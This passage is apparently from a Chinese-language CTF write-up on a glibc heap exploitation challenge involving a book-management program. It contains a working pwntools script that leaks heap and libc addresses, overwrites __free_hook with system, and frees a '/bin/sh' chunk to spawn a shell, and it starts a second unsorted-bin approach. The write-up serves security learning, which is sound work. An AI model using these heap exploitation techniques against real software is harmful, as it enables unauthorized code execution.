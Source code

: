 ```python
libc = elf.libc
name_1()
create_book(0x20,"aaaa",0x100,"bbbb")
print_book()
p.recvuntil("a" * 0x20)
book1_addr = u64(p.recv(6).ljust(8,"\x00"))
print(hex(book1_addr))

create_book(0x21000,"cccc",0x21000,"dddd")
book2_addr = book1_addr + 0x30
book2_name = book2_addr + 0x8
payload = 0x60 * 'a' + p64(1) +  p64(book2_name) + p64(book2_name) + p64(0xffff)
change_des(1,payload)
change_name()
print_book()

p.recvuntil("Name: ")
book2_name = u64(p.recv(6).ljust(8,"\x00"))
log.success("book2_name:" + hex(book2_name))
gdb.attach(p)

libc_base = book2_name - 0x5db010
bin_sh = libc.search("/bin/sh").next() + libc_base
system_addr = libc.symbols["system"] + libc_base
free_hook = libc.symbols['__free_hook'] + libc_base
log.success("libc_base:" + hex(libc_base))
log.success("bin_sh:" + hex(bin_sh))
log.success("system_addr:" + hex(system_addr))
log.success("free_hook:" + hex(free_hook))

payload1 = p64(bin_sh) + p64(free_hook)
change_des(1,payload1)
change_des(2,p64(system_addr))
delete(2)

p.interactive()
```

本地被打通：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/one/one22.png?x-oss-process=style/watermark)

## 2.3溢出思路2

1、与思路1相同，利用打印作者名的漏洞，创建书1，打印book1 information的地址。

2、通过unsorted bin泄露mallo_hook地址。要想达到这个条件，就需要创建一个大于0x80的堆，然后释放它。因此创建书2和书3，其中书2的book2_name要大于0x80，书3的name为bin/sh，作用为后续释放书3时，可以直接free(‘bin/sh’)。达到思路1中第7步的目的。也可以后续新建一个书达到同样的目的。

```python
add(0x80,'cccccccc',0x60,'dddddddd')
add(0x20,'/bin/sh',0x20,'/bin/sh') 
```
